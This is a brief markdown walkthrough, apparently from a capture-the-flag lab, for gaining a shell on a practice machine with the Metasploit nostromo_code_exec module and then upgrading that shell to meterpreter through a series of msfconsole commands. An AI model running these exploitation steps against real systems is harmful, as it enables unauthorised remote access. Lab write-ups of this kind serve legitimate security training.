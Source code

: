 # Exploiting a machine using Metasploit Framework # 

## Module: `exploit/multi/http/nostromo_code_exec` ##

* This machine is currently vulnerable to the metasploit module `exploit/multi/http/nostromo_code_execon` port 80, and this task will take you through the process of exploiting it and gaining a shell on the machine.

---
### Running `msfconsole` ###

```BASH
> search nostromo
> use 0
> options
> set rhosts 10.10.122.38
> set rport 80
> set lport <my-machines-ip> # which is the ip address you get when you run $ifconfig | grep inet
> exploit
```

* If you get a regular shell you can almost always upgrade it to a meterpreter by running;
* Before that you need to send the regular shell to background by typing `background` or `bg`

```BASH
> search shell_to
> use 0
> options 
> set session <session of the regular shell>
> sessions      #to list sessions
> session -i <meterpreter session id> 
```
